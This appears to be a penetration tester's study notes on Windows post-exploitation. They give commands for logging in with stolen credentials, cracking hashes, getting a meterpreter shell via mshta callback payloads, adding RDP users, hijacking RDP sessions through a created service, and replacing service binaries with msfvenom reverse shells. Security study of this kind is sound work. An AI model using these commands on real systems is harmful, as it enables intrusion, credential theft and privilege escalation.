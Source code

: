 - `Wmic` lists software installed on target (powershell)
	- `Wmic product get name,version,vendor` will dump installed software


## When you have credentials:

`evil-winrm -i [IP] -u [user] -p [password]`

If credentials for SMB, use PSExec if windows to run commands (you can use msf `exploit/windows/psexec`)

If you get credentials of an elevated user, `runas.exe /user:[elevated_user] cmd`

crack windows hashes `auxiliary/analyze/crack_windows`
- this is easy if you started the MSF database, had a meterpreter shell, and did `hash_dump`
- `creds` will show you gathered things
- after running `crack_windows` use `creds` again to see plaintext

## Shell Upgrade

To switch to a meterpreter shell, you can use the `exploit/windows/misc/hta_server` in metasploit. 
- It will generate a URL payload that you can copy and paste into the powershell session that will connect back to MSF and start the meterpreter session. 
- On the target: `mshta.exe [URL_payload]` (mshta.exe is a regular executable under System32 that can execute code embedded in HTML, hta stands for HTML Application) (you might have to foreground the session in msf, it went background for me automatically)

To switch to RDP with meterpreter
- `run getgui -e -u [user] -p [pass]`
- this will create a new user and enable RDP access for them

## Service Creation

if we have local admin privileges but want SYSTEM privileges, we can create a Windows service that will run as Local System and will execute binaries with SYSTEM privileges. https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create

`sc.exe create sessionhijack binpath = "cmd.exe /k tscon 2 /dest:rdp-tcp#13"`
- we created the service `sessionhijack`
- the binary it executes is `cmd.exe` with the added arguments
- in this case, we ran `tscon` which is used to hijack an RDP session from another user (see MS protocols under exploitation)
- `net start sessionhijack` to run


## Service Misconfigurations

#### Insecure Service Executable Permissions
- `Sc qc [service]` shows you the configuration of a particular service
- Binary path is here
- `Service_start_name` shows you the account used to run the service
- Follow enumeration techniques to see if you can overwrite the file (in the example, Everyone had (M) which is modify).
- Replace with a reverse shell or something from msfvenom `windows/x64/shell_reverse_tcp`
- Use a python server and wget (powershell) to move the payload
- Make sure you give it permissions to be executed by everyone, move it to the path of the original executable
- `Sc stop [service]`, and then `sc start [service]` if you don't want to wait

